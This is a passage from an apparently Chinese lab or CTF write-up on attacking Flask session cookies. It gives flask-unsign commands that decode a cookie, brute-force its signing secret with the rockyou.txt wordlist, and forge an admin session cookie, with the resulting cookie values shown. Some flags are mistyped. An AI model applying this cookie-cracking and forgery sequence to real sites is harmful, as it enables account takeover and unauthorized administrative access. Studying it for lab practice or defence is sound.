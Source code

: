 使用flask-unsign解密  
flask-unsign --decode--cookie'.eJwlx0EKgCAQBdCrDH\_torU3iZCQHC0wBUcpEO-e0OrxOnYfrZws0FsH1QmkHQeLQGHNjWxhSvmhmENgR1eCGUbh7z6ra2ms0IRLsjdDY3mdx\_gAqEYfRw.YkOi3g.uAoRysM25q2FzuEUmYMaCRMQ4aA'{'\_flashes': \[('success', 'You are now logged in')\], 'logged\_in': True, 'username': '0xdf'}  
cookie:eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Yxvarg.S9d5IqA4nL7CBjzYp4CfnG8IoLk  
命令：flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Yxvarg.S9d5IqA4nL7CBjzYp4CfnG8IoLk'

[![](assets/1701678249-e6a7b06003985ff7f0658af98d05d305.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213557-64bd47d2-8f85-1.png)

使用flask-unsign. Flask cookie 使用秘密签名，因此在不知道该密码的情况下无法修改它们。可以进行暴力破解来测试弱密码，并通过flask-unsign来提供该功能。--unsign-w，运行它会rockyou.txt返回错误：

[![](assets/1701678249-9091cca855654a9f035b4b0992d6fbdc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213610-6c4d869c-8f85-1.png)

它似乎将文件中的“123456”通过添加--no-lteral-eval. 我将添加它，它可以很快找到秘密：

[![](assets/1701678249-615d8183ad4cd3f05d5cd0f897224106.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213619-718164ee-8f85-1.png)

## 以管理员身份访问测试

生成一个管理员的cookie，然后替换到浏览器当中去。  
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YxvdIw.PpnxZ3h8WkIo\_5JMIfhCDD7hXo8

[![](assets/1701678249-6497712b30d3c0d15332fae0036ffb69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213626-75ec48fa-8f85-1.png)
